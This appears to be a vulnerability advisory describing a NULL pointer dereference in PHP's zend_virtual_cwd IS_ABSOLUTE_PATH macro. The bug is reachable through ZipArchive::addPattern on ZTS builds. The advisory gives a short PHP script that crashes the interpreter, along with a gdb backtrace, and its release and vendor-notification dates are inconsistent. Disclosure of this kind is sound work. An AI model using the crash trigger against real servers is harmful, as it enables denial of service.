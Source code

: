# PHP NULL pointer dereference in zend_virtual_cwd #

* _Author_: Martino Sani 
* _Release date_: 2016-07-23
* _Software_: www.php.net
* _Version_: master-Git-2016-07-23 (Git)
* _Reference_: https://bugs.php.net/bug.php?id=72660
* _CVE_: -

## Description ##

One of the IS_ABSOLUTE_PATH macro in zend_virtual_cwd.h file does not verify that the path is not null. This could lead to a null pointer dereference issue.
I triggered the issue through ZipArchive::addPattern function and ZTS (Zend Thread Safety) enabled, but maybe it could be triggered via different vectors.

http://php.net/manual/en/ziparchive.addpattern.php reports that the default value of $path argument is "." but in my test it was null.

`zend_virtual_cwd.h (line 112)`:
```c
#ifndef IS_ABSOLUTE_PATH
#define IS_ABSOLUTE_PATH(path, len) \
        (IS_SLASH(path[0]))
#endif
```

`php_zip.c (line 609)`
```c
#ifdef ZTS
if (!IS_ABSOLUTE_PATH(path, path_len)) {
   result = VCWD_GETCWD(cwd, MAXPATHLEN);
```   

**PHP builded using the following commands:**
```
./buildconf --force
./configure --enable-zip --enable-maintainer-zts
make && make install
```

**Test script:**
```php
$zip = new ZipArchive();
$zip->open("foo.zip", ZIPARCHIVE::CREATE);
$zip->addPattern("/\./");
$zip->close();
?>
```
**Expected result:**

PHP interpreter should not crash.

**Actual result:**

Program received signal SIGSEGV, Segmentation fault.

```
Program received signal SIGSEGV, Segmentation fault.

0x0000000001f7e049 in php_zip_pcre (regexp=<optimized out>, path=0x0, path_len=<optimized out>, return_value=<optimized out>) at ext/zip/php_zip.c:610
warning: Source file is more recent than executable.
610             if (!IS_ABSOLUTE_PATH(path, path_len)) {

(gdb) bt

#0  0x0000000001f7e049 in php_zip_pcre (regexp=<optimized out>, path=0x0, path_len=<optimized out>, return_value=<optimized out>) at ext/zip/php_zip.c:610
#1  0x0000000001f9cb8b in php_zip_add_from_pattern (execute_data=<optimized out>, return_value=<optimized out>, type=<optimized out>) at ext/zip/php_zip.c:1669
#2  0x000000000276ddd4 in ZEND_DO_FCALL_SPEC_RETVAL_UNUSED_HANDLER (execute_data=<optimized out>) at Zend/zend_vm_execute.h:970
#3  0x0000000002673052 in execute_ex (ex=<optimized out>) at Zend/zend_vm_execute.h:432
#4  0x0000000002673c2f in zend_execute (op_array=<optimized out>, return_value=<optimized out>) at Zend/zend_vm_execute.h:474
#5  0x000000000242b711 in zend_execute_scripts (type=<optimized out>, retval=<optimized out>, file_count=<optimized out>) at Zend/zend.c:1447
#6  0x000000000202ccce in php_execute_script (primary_file=0x7fffffffcd20) at main/main.c:2533
#7  0x0000000002a97fe3 in do_cli (argc=<optimized out>, argv=<optimized out>) at sapi/cli/php_cli.c:990
#8  0x0000000002a9385c in main (argc=3, argv=0x60300000ee30) at sapi/cli/php_cli.c:1378

(gdb) info args

regexp = <optimized out>
path = 0x0
```

## NOTES ##

* 2017-02-23: Vendor notification.

The author is not responsible for the misuse of the information provided in this advisory.

